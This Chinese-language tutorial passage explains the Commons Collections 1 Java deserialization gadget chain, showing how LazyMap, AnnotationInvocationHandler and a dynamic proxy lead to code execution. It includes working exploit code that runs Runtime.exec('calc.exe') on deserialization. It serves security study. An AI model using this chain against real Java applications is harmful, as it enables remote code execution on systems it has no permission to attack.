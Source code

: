 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240713200033341.png)

利用反射在私有构造函数中把memberValues设为lazymap

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240713200252091.png)

get的参数member是代理对象调用的方法名，无所谓，不可能是chainedTransformer![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240713200606754.png)

那我们应该选择哪个被代理类呢？

在get前的代码，如果调用的方法名为equals，toString，hashCode，annotaionType中的任意一个方法都会立刻return，且`assert paramTypes.length == 0;`表示`paramType.length != 0`则抛出AssertionError异常。即不能调用有参方法。只要不是调用以上名字方法，都能成功执行。

代理类只能代理构造函数传入的类，在这里就是继承了Annotation接口的类（即注解），和实现了Map接口的类。

所以哪个注解类或实现了Map接口的类在readObject调用了无参方法呢？就是他本身

AnnotationInvocationHandler本身的readObject里调用了map的一个无参方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240713230626575.png)

我们用AnnotationInvocationHandler代理lazyMap，调用这个代理实例的entrySet方法，就能跳转到invoke方法，进而调用get。

```java
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
            new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> lazyMap = LazyMap.decorate(map,chainedTransformer);
        Class<?> annotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> annotationInvocationHandlerConstructor =annotationInvocationHandlerClass.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationHandlerConstructor.setAccessible(true);
        InvocationHandler ProxyInvocationHandler = (InvocationHandler) annotationInvocationHandlerConstructor.newInstance(Override.class,lazyMap);
        Map ProxylazyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},ProxyInvocationHandler);
        ProxylazyMap.entrySet();
```

我们用AnnotationInvocationHandler#readObject去触发entrySet()

```java
        Map ProxylazyMap1 = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},ProxyInvocationHandler);
//        ProxylazyMap.entrySet();
        Object ProxylazyMap2 = annotationInvocationHandlerConstructor.newInstance(Override.class,ProxylazyMap1);
        serialize(ProxylazyMap2);
        unserialize("ser.bin");
```
